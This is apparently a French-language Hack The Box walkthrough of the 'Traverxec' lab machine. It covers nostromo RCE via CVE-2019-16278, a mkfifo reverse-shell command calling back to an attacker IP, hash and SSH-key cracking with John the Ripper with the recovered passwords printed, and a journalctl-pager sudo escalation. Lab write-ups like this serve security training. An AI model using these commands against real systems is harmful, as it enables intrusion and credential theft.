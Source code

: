 # Infos

Level : easy
OS : Linux
IP : 10.129.24.71
Hostname: traverxec

# Reconnaissance

## Nmap TCP base

```
nmap -T4 --min-rate 10000 -sV -oN nmap_base 10.129.24.71 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est sur l'OS Linux, sur le port 80, on retrouve la version de nostromo 1.9.6 qui peut être intéressant pour la suite.

## Nmap UDP

```

```

# Enumération

## Port 80/tcp - HTTP

Sur le site, on retrouve une page web statique. Si on se renseigne sur  [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), on peut voir qu'il s'agit d'un serveur web très minimaliste.

![[Hack The Box/traverxec/img/80-site.png]]

En bas de la page, on a un formulaire, mais il ne fonctionne pas

![[80-form-disabled.png]]

## Foothold - www-data

Pas de robots.txt, on commence par fuzz les répertoires et fichiers, mais ça ne donne rien. Si on recherche des exploits en lien avec la version de nostromo, on retrouve un [exploit](https://www.exploit-db.com/exploits/47837) concernant la [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) permettrant un path traversal dans la fonction `http_verify`, cela mène à une RCE.

L'exploit semble un peu vieux, on va en chercher un autre. Rapidement, on trouve cet [exploit](https://raw.githubusercontent.com/jas502n/CVE-2019-16278/master/CVE-2019-16278.sh) en bash sur Github. Cela nous demande l'hôte comme premier argument, puis le port en second argument et enfin la commande que l'on souhaite.

![[80-rce.png]]

Ca fonctionne et on obtient bien une RCE. Essayons maintenant d'obtenir un reverse shell Bash TCP, ça ne fonctionne pas, mais si on essaye avec le reverse shell mkfifo ça passe et on récupère un shell en tant que www-data

`bash CVE-2019-16278.sh 10.129.24.71 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.33 9001 >/tmp/f"`

![[shell-www-data.png]]

## Mouvement latéral - david

Sur la machine, on retrouve deux utilisateurs, david qui pourrait être notre pivot et le compte root.

Lancement de linpeas, on peut voir un kernel un peut vieux

`OS: Linux version 4.19.0-6-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20)`

Variables d'env

![[www-data-peas-env.png]]

Crontab

`-rw-r--r-- 1 root root    1042 Jun 23  2019 /etc/crontab`

.htpasswd

![[www-data-peas-htpasswd.png]]

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

On peut tenter de cracker ce hash et ça fonctionne `Nowonly4me`, mais impossible d'utiliser ce mot de passe via su ou SSH

`john --format=md5crypt hash-md5-david.txt --wordlist=/opt/rockyou.txt`

![[lat-crack-hash.png]]

Dans le répertoire contenant le server web nostromo, on retrouve un fichier de conf `nhttpd.conf` qui nous permet de voir qu'il y a un dossier accessible `public_www` sous `/home/david/public_www`

![[lat-conf-nostromo.png]]

Quand on y accède on retrouve un fichier et un dossier :
- index.html
- protected-file-area -> folder

Dans ce dossier on retrouve également deux fichiers :
- .htaccess -> ne donne rien
- backup-ssh-identity-files.tgz -> archive d'un backup SSH -> juicy :p

![[lat-david-tgz.png]]

On ne peut pas décompresser l'archive sur la target, mais on peut essayer de le transférer sur la machine d'attaque. Ca ne fonctionne pas, on peut tenter de copier le fichier dans /tmp, lui assigner les droits et le décompresser

![[tmp-backup-ssh.png]]

Ca fonctionne et on retrouve sa clé privée RSA chiffrée sous `/tmp/home/david/.ssh/id_rsa`

![[lat-david_idrsa_crypt.png]]

Utilisation de ssh2john pour générer un hash

`/opt/tools/john/run/ssh2john.py id_rsa_david > id_rsa_david_hash`

![[lat-david-idrsa_hash.png]]

Crack avec JtR, on retrouve le mdp `hunter`

`john id_rsa_david_hash --wordlist=/opt/rockyou.txt`

![[lat-david-idrsa_crack.png]]

Tentative de connexion en SSH et récupération du flag user.txt

`ssh -i id_rsa_david david@10.129.24.71`

![[Hack The Box/traverxec/img/userflag.png]]

## Elévation de privilèges - root

Lancement de linpeas pour trouver un path pour le root, sous `/home/david/bin/` on retrouve le fichier `server-stats.sh` qui fait appel à la commande sudo, ce qui pourrait être intéressant pour obtenir le compte root.

Si on l'exécute, on obtient ceci

`./server-stats.sh`

![[pe-server-stats.png]]

La dernière ligne fait appel à sudo sur journalctl, cela va ouvrir un less, on peut privesc de cette manière `!/bin/bash`

`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

Après plusieurs tentatives, il faut deux terminaux pour que ça fonctionne, en effet si on tente avec un seul, le pager less ne se lance pas.

![[pe-suid-error.png]]

Alors qu'avec deux terminaux, ça fonctionne :D

![[rootflag.png]]



